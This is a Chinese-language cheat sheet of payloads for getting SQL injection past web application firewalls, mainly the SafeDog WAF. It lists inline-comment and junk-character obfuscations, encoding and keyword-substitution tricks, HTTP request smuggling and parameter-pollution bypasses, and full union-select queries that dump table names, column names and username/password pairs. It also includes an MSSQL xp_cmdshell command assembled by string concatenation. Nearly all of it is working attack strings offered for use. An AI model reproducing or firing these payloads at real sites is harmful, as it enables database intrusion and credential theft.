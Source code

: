 最新版\
1、安全狗and的绕过（防止and和or的注入）
将and修改为/*!12345and*/ ps:12345是任意的5位数字
通过bp进行拦截，发送到intruder模块，进行爆破找特征值 返回结果正常即是可以被正常绕过
4-6位都可以

2、安全狗order by的绕过
order by一起出现会引发安全狗警告，要在order by之间添加一些字符
order /*//%$*/ by 1 -- 1

3、安全狗select　union的绕过（防止联合查询）
select和union在一起的时候会触发
跟order by原理相同，不过需要我们用bp进行fuzz
?id=-2' union /*/$%^*/ select 1,2,3 -- 1

4、查询数据的绕过
database()的绕过：
database和()放在一起的时候会触发waf
在两者之间添加干扰符即可
?id=-2' union /*/$%^*/ select 1,database/*////*/(),3 -- 1
查询表的绕过：
第一个绕过点：
information_schema.tables
waf会对tables进行拦截，想绕过需改成information_schema./*!tables*/
第二个绕过点：
from和information_schema./*!tables*/当这两个放在一起的时候会触发waf，这个时候要对from和information.schema./*!tables*/之间进行处理了
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a
information_schema./*!tables*/ -- 1
绕过过程：首先在union和select之间放干扰符号，然后在from和information_schema之间放 --+以及正确的干扰符，然后通过%0a进行换行，最后对talbe进行内联
但是还要通过where去指定对应的数据库
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a
information_schema./*!tables*/ where table_name='security' -- 1
但是information_schema和where出现在一起需要在中间添加干扰符
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a
information_schema./*!tables*/ /*////*/
where table_schema='security' -- 1  进行fuzz测试
获取security对应表下的所有列名：
?id=-2' union /*/$%^*/ select 1,group_concat(column_name),3 from --+/*%/ %0a
information_schema./*!columns*/ /*////*/
where table_schema='security' /*!12441and*/ table_name='users' -- 1
查询数据的绕过：
?id=-2' union /*/$%^*/ select 1,group_concat(username,0x3a,password),3 from /*////*/ users -- +

---

方法                                                                 payload
编码                                      1、进行url编码（少数waf不会进行URL解码,部分waf进行一次url解码==>可对payload进行二次url编码）
                                          2、Unicode编码：单引号 = %u0027、%u02b9、%u02bc
                                          3、部分十六进制编码：adminuser = 0x61646D696E75736572
                                          4、SQL编码：unicode、HEX、URL、ascll、base64等
                                          5、XSS编码：HTML、URL、ASCII、JS编码、base64等
大小写变换                                 select=SELecT
关键字替换                                 And = &&
                                          Or = ||
                                          等于号 = like （或使用’<’ 和 ‘>’ 进行判断）
                                          if(a,b,c) = case when(A) then B else C end
                                          substr(str,1,1) = substr (str) from 1 for 1
                                          limit 1,1 = limit 1 offset 1
                                          Union select 1,2 = union select * from ((select 1)A join (select 2)B;
                                          hex()、bin() = ascii()
                                          sleep() = benchmark()
                                          concat_ws() = group_concat()
                                          mid()、substr() = substring()
                                          @@user = user()
                                          @@datadir = datadir()
特殊字符替换（空格或注释绕过）               sqlserver中：/**/、/*|%23--%23|*/ 
                                          mysql中：%0a、%0a/**/、//*!*//、#A%0a
特殊字符重写绕过                           selselectect
多请求拆分绕过                             ?a=[inputa]&b=[inputb]  ===》(参数拼接)  and a=[inputa] and b=[inputb]
参数放Cookie里面进行绕过                    $_REQUEST（获取参数，会获取GET POST COOKIE）===>  若未检测cookie，我们可以放cookie里面
使用白名单绕过                             admin dede install等目录特殊目录在白名单内
                                          URL/xxx.php?id=1 union select …… ===》
                                          1、URL/xxx.php/admin?id=1 union select……
                                          2、URL/admin/..\xxx.php?id=1 union select……
内联注释绕过                               id=1 and 1=1 ===》  id=1/*!and*/1=1
参数重写绕过                               URL/xx.php?id=1 union select  ===》
                                          URL/xx.php?id=1&id=union&id=select&id=……&id=
特殊字符拼接                               mssql中，函数里面可以用+来拼接 ?id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')       
云waf                                     ===》找真实IP
http协议绕过                              Content-Type绕过：application/x-www-form-urlencoded è multipart/form-data
                                         请求方式绕过：更换请求方法
                                         多Content-Disposition绕过：包含多个Content-Disposition时，中间件与waf取值不同 
                                         keep-alive（Pipeline）绕过：手动设置Connection:keep-alive（未断开），然后在http请求报文中构造多个请求，将恶意代码隐藏在第n个请求中，从而绕过waf
                                         修改编码方式：Charset=xxx进行绕过
 Waf检测限制绕过                          参数溢出
                                         缓冲区溢出：
                                         UnIoN SeLeCT ===》 and (select 1)=(Select 0xA*99999) UnIoN SeLeCT and 1=1 ===》 and 1=1 and 99…99999 //此处省略N多个9同网段/ssrf绕过                                       
------------------------------------------------------------------------------------------------------
1=1绕过
'and 1=1-- -被拦截
&符号可以绕
'%261-- -
'%26true-- -
'%260-- -
'%26false-- -
xor可以绕
'Xor 1-- -
'Xor true-- -

'or length(database()=4)-- -会被ban，这样绕：
'%26(length(database/**/())=4)-- -
'%26(ascii(@@version)=53)-- -
1'or -1=-1-- -
1'or -0=-0-- -

内联注释
1'or /*!1=1*/-- -
或者简单粗暴点的 或者简单粗暴点的 直接绕过and和or：
/*!11440OR*/
/*!11440AND*/



order by绕过
%23%0a绕过
order%23%0aby 3
内联注释加注释绕过
1'/*!order /*!/*/**/by*/4-- -
1'/*!order /*/*%/**/by*/4-- -
1'/*!order /*!/*/**//**/by*/4-- -
1'/*!order /*!/*/**//*/**/by*/4-- -
同样类似上面绕过and方法
/*!11440order*/



union select绕过
利用内联注释和注释的混淆绕过
1'/*!union/*!/*/**/*/select/**/1,2,'password'-- -
/*!11440union*/
/*!select/*!/*/**/*/


系统函数绕过
单独的括号和函数名都不会检测，分开函数名和括号：
version () #直接空格
user%0a() #这个地方%0a~%20有很多，类似绕过空格
database/**/() #注释符
user/*!*/() #内敛注释


函数名绕过
/*!extractvalue/*!/*/**/*/
/*!updatexml/*!/*/**/*/

联合注入绕过方式
这里使用mysql自带的正则函数(regexp)

select * from company_info where name like '桑尼';  //查询name等于桑尼的数据
select * from company_info where name regexp '桑尼'; //查询结果中name包含桑尼的数据

获取详细信息
尝试获取数据库名、版本，因database()被识别被拦截

-1' regexp "%0A%23" /*!11444union*/ %0A /*!11444select*/ 1,database(/*!11444*/),version(/*!11444*/) %23

注入出表名
-1' union /*!--+/*%0aselect/*!1,2,*/ group_concat(schema_name) /*!from*/

/*!--+/*%0ainformation_schema./*!schemata*/ --+
